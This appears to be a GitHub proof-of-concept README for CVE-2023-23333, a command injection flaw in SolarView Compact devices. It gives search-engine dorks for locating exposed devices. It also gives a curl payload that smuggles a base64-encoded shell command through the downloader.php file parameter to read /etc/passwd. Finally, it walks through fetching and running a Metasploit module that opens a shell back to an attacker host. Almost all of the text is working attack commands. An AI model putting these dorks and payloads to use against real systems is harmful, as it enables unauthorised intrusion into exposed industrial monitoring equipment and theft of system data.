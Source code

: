 # CVE-2023-23333

![](https://img.shields.io/static/v1?label=Product&message=SolarView%20Compact&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%3Dver%206.00&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Command%20Injection&color=red)


- Shodan dork:
```
http.html:"SolarView Compact"
```
- FOFA dork:
```
body="SolarView Compact"
```
### Curl PoC
```
echo -n 'cat /etc/passwd' | base64

Y2F0IC9ldGMvcGFzc3dkCg
```
```
curl http://target.com/downloader.php?file=;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0
```

### Metasploit-Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/SolarView_Compact/solarview_compact.rb
```
```
cp solarview_compact.rb /usr/share/matasploit-framework/modules/exploits/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
set rhost target_ip
```
```
set lhost attacker_ip
```
```
run
```
